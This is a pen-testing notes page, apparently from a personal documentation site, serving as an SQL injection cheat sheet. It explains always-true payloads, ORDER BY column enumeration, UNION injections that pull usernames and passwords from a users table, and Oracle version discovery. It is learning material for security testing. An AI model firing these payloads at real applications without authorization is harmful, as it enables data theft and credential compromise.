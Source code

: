 ```yaml
---
layout: page
title: SQL Injection Cheatsheet
parent: SQL Injection
grand_parent: Attacks
---
```

# {{ page.title }}
{: .no_toc }

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
- TOC
{:toc}
</details>

---
## Basic SQL Statement 
A large amount of SQL statements on something like a product search page will be structured similarly too:
{% highlight sql %}
SELECT * FROM {some-table(s)} WHERE {some-field} = '{some-query}'

SELECT * FROM products WHERE categories = 'Gifts' AND released = 1
{% endhighlight %}

## Handling Different SQL System Syntax
There is a variety of SQL platforms available now and each use slightly different SQL syntax to carry out operations. A useful cheatsheet can be found on the [PortSwigger SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) here that details the different syntax for each main platform. There is also a fairly comprehensive cheat sheet [here](https://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet) for different systems.

## Basic Evaluate True (Return All)
A very basic way to exploit a statement like the above would be to break out of the quotes and then add a statement that always evaluates as true and comment out the final section of the statement.

Adding a simple `' OR 1=1--`, escapes the categories field value by ending the quotes, adds an `OR` statement followed by a statement that always evaluates as True. Finally we use a `--` to comment out any other statements following in the query.

{% highlight sql %}
SELECT * FROM products WHERE categories = '' OR 1=1-- ' AND released = 1
{% endhighlight %}

## Determining the number of columns in a table
Finding out the number of columns in a table can be very useful for construction a [UNION attack](https://portswigger.net/web-security/sql-injection/union-attacks) as to `UNION` another table to the result you need to match the number of columns. This means before we can create this attack we need to determine how many columns are in the current table.

To do this we can use the `ORDER BY` command to determine how many columns are in the table. By escaping a parameter and then adding an `ORDER BY 1--` you can control the order of the results by sorting based on the column index specified.

This means that you can increase the number until you get a server error (indicating that you have tried to select a column index out of range) allowing you to determine the number of columns in a table.

{% highlight sql %}
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc
{% endhighlight %}

## UNION Attacks
`UNION` Attacks are where you use a `UNION` command to attach a secondary/multiple more statements to the end of an SQL command to retrieve information from another table or different columns.

Some key requirements for a UNION attack is that the number of columns that are being appended to the bottom of the original result have to match. You can determine the number of columns of a table using a method described in [Determining the number of columns in a table](https://alipali737.github.io/pen-test-docs/Attacks/sql-injection/SQL%20Injection%20Cheatsheet.html#determining-the-number-of-columns-in-a-table)

More information can also be found on the [PortSwigger UNION Attacks](https://portswigger.net/web-security/sql-injection/union-attacks) page.

#### Append a blank table to the end of the list with NULL values
{% highlight sql %}
' UNION SELECT NULL,NULL,NULL--
{% endhighlight %}

#### Finding columns that have a useful data type
{% highlight sql %}
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
{% endhighlight %}

#### Retrieving information from another table
- For this you must make sure that you follow the appropriate number of columns needed for the UNION to work
- This also requires you to know the column names and table name for the data you wish to access
{% highlight sql %}
' UNION SELECT username, password FROM users--
{% endhighlight %}

#### Retrieving multiple values within a single column
- If you wish to return data that is more columns that the original query you can concatinate the data from the extracted table into a single column
- This could also be required if you only have limited columns that support the data type you require
{% highlight sql %}
' UNION SELECT username || '-' || password FROM users--
' UNION SELECT NULL,username || '-' || password FROM users--
{% endhighlight %}

## Discovering System Information
- There is often varibles and tables that come as default for many SQL implementations that details the versions and technologies used
- These are specific to the languag but can be very helpful for recon on the target

{% highlight sql %}
-- Oracle:
SELECT banner FROM v$version
SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’
SELECT banner FROM v$version WHERE banner LIKE ‘TNS%’
SELECT version FROM v$instance
{% endhighlight %}